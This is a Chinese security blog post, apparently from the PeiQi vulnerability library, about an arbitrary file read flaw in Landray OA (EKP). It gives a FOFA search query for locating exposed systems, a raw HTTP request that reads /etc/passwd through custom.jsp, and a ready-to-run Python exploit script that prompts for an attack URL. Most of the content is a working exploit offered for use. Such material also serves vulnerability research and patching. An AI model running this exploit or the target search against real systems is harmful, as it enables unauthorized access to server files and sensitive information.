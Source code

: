 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/TkUZXKgfEOVqoHKBr3kNdw)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7f0qibYGLgIyO0zpTSeV1I6m1WibjS1ggK9xf8lYM44SK40O6uRLTOAtiaM0xYOqZicJ2oDdiaWFianIjQ/640?wx_fmt=png)**

**一****：漏洞描述🐑**

**深圳市蓝凌软件股份有限公司数字 OA(EKP) 存在任意文件读取漏洞。攻击者可利用漏洞获取敏感信息。**

**二:  漏洞影响🐇**

**蓝凌 OA**

**三:  漏洞复现🐋**

```
FOFA:  app="Landray-OA系统"
```

**出现漏洞的文件为 custom.jsp,** **请求包为**

```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 42
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"file:///etc/passwd"}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7UGicsjEf95CAW6nYx9fytsIIwlib5jbcTwsHbwv6bafvbQ0aib8bcrCX6memWRmAsZjZ3qs9eFCnEQ/640?wx_fmt=png)

 ****四:  漏洞 POC🦉****

```
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 蓝凌OA 任意文件读取                                          \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/sys/ui/extend/varkind/custom.jsp"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded"
    }
    data = 'var={"body":{"file":"file:///etc/passwd"}}'
    try:
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在请求 {}/sys/ui/extend/varkind/custom.jsp \033[0m".format(target_url))
        if "root:" in response.text and response.status_code == 200:
            print("\033[36m[o] 成功读取 /etc/passwd \n[o] 响应为:{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

#
if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7UGicsjEf95CAW6nYx9fyts1ZNxLwBDBnmHBFRmLgVmTZlcicO4zeDrOwclHE0yktibiaNOWNSCQxqyQ/640?wx_fmt=png)

 ****五:  关于文库🦉****

 **在线文库：**

**http://wiki.peiqi.tech**

 **Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4cpD8uQPH24EjA7YPtyZEP33zgJyPgfbMpTJGFD7wyuvYbicc1ia7JT4O3r3E99JBicWJIvcL8U385Q/640?wx_fmt=png)

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZuHPQeSEAhRof2olkAM9ZghicpNv0p8rRbtNCZJL4t82g15Va8iahlCWeg/640?wx_fmt=png)

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**